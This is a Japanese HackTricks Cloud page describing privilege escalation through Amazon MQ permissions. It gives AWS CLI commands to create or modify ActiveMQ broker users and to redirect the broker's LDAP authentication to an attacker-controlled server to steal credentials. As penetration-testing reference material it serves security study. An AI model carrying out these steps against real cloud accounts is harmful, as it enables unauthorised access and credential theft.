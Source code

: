 # AWS - MQ 特権昇格

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**購読プラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出してハッキングテクニックを共有してください。

</details>
{% endhint %}

## MQ

MQに関する詳細情報は次をチェックしてください:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

これらの権限を持っていると、**ActimeMQブローカーに新しいユーザーを作成**できます（これはRabbitMQでは機能しません）:

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**潜在的影響:** ActiveMQ を通じて機密情報にアクセス

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

これらの権限を持っていると、**ActimeMQ ブローカーに新しいユーザーを作成**できます（RabbitMQ では機能しません）:
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**潜在的影響:** ActiveMQ を通じてアクセスされる機密情報へのアクセス

### `mq:ListBrokers`, `mq:UpdateBroker`

ブローカーが **ActiveMQ** で認証に **LDAP** を使用している場合、攻撃者が制御する LDAP サーバーの構成に変更することが可能です。これにより、攻撃者は **LDAP を介して送信されるすべての資格情報を盗むことができます**。
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
もしActiveMQが使用している元の資格情報を見つけることができれば、MitMを実行し、資格情報を盗み、元のサーバーで使用し、レスポンスを送信することができます（おそらく、盗まれた資格情報を再利用するだけでこれを行うことができます）。

**潜在的な影響:** ActiveMQの資格情報を盗む

{% hint style="success" %}
AWSハッキングの学習と実践:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と実践: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**購読プラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}
